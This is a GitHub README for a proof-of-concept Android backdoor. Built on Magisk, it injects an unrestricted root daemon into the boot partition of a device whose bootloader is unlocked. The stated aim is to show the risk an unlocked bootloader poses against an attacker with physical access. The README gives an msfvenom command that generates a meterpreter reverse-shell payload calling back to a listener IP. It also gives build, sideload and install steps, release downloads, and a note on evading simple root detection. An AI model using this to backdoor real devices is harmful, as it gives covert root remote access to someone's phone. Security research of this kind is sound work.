 # Unlocked bootloader backdoor demo for Android

### [An article with full explaination / Статья на хабре с полным пояснением](https://habr.com/ru/post/541190/)

This is a tool that installs a custom binary into a system partition. This binary runs as a system daemon with root privileges and not restricted by SELinux policies. This tool is based on [Magisk](https://github.com/topjohnwu/Magisk) source code, but does not necessary require root or magisk preinstalled on the device. So basically this IS the magisk but only the part that injects new SELinux policies. It injects magiskinit binary in boot partition but does not install or use any other magisk tools. It also does not add any magisk files to device filesysytem, which allows it to avoid simple root detection tools, but unfortunately it is still detectable by SafetyNet.         

The goal of this is to show that unlocking the bootloader can expose your device to an attacker with physical access.

I successfully tested it on android 9 with normal init process and android 10 with two-staged init. It should work on other configurations as well but there can be troubles.

In this repo the embedded binary is made for the demo purposes only. It just drops a line to logcat once in 5 seconds, but you cat replace it with your own if you want. For example, if you are on Kali you can generate the reverse shell payload:
```
$ rm revshell/revshell
$ msfvenom -p linux/aarch64/meterpreter/reverse_tcp LHOST=<YOUR_LISTENER_IP> LPORT=<YOUR_LISTENER_PORT> -f elf > revshell/revshell
```
After that you can build the packages and flash your binary instead of the one provided with the repo.  

## Prerequisites

- First, you have to install android SDK for your OS if you haven't already.
- Second, make sure you have python3 installed.

After that you are all set up.

## Build

The result package is a TWRP sideloadable zip file.

set a ANDROID_SDK_ROOT variable in your shell. For example:  
```
$ ANDROID_SDK_ROOT=/usr/lib/android-sdk
$ export ANDROID_SDK_ROOT
```

Prepare NDK for the build:
```
$ ./build_revshell.py ndk
```

Run the build:
```
$ ./build_revshell.py
```

## Download

You can download release packages directly:
- [zip_reverse_shell_install.zip](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo/releases/download/v1.0/zip_reverse_shell_install.zip)
- [zip_reverse_shell_uninstall.zip](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo/releases/download/v1.0/zip_reverse_shell_uninstall.zip)

## Install

Run TWRP on your device.

Start sideload feature in Advanced/Sideload and then run:
```
$ adb sideload zip_reverse_shell_install.zip
```

Check out the output log carefully. If you have been warned that you need to backup original partitions then you have to run the command below BEFORE rebooting into system, otherwise you will not be able to uninstall this tool properly and will have to find stock boot image for your device somewhere and flash it.
```
$ adb pull /tmp/backup_original_partitions .
```

Reboot into system.

You should now be able to see new lines in logcat:

```
$ adb logcat | grep revshell
01-31 23:42:07.587  3589  3589 D revshell: Start successfull!
01-31 23:42:07.588  3589  3589 D revshell: Signals are set to ignore
01-31 23:42:07.588  3589  3589 D revshell: Hey I'm a revshell process!
01-31 23:42:07.588  3589  3589 D revshell: My PID -- 3589
01-31 23:42:07.588  3589  3589 D revshell: My parent PID -- 1
01-31 23:42:07.588  3589  3589 D revshell: My UID -- 0
01-31 23:42:07.588  3589  3589 D revshell: Awaiting encrypted FS decryption now...
01-31 23:42:27.597  3589  3589 D revshell: FS has been decrypted!
01-31 23:42:27.597  3589  3589 D revshell: Starting reverse shell now
01-31 23:42:32.597  3589  3589 D revshell: tick ! 25 seconds since process started
01-31 23:42:37.598  3589  3589 D revshell: tick ! 30 seconds since process started
01-31 23:42:42.599  3589  3589 D revshell: tick ! 35 seconds since process started
01-31 23:42:47.600  3589  3589 D revshell: tick ! 40 seconds since process started
```

## Uninstall

Use zip_reverse_shell_uninstall.zip to properly uninstall this tool. 

If during installation you have made a backup of original partitions then run:
```
$ adb push backup_original_partitions /tmp/backup_original_partitions
```

Start sideload feature in Advanced/Sideload and then run:
```
$ adb sideload zip_reverse_shell_uninstall.zip
```

Reboot into system.

## Acknowledgments

Great thanks to topjohnwu and magisk contributors for their amazing work and incredible contribution to android tinkerers community. This Demo wouldn't even exist without them. 

## Links:

[Original Magisk repository](https://github.com/topjohnwu/Magisk)
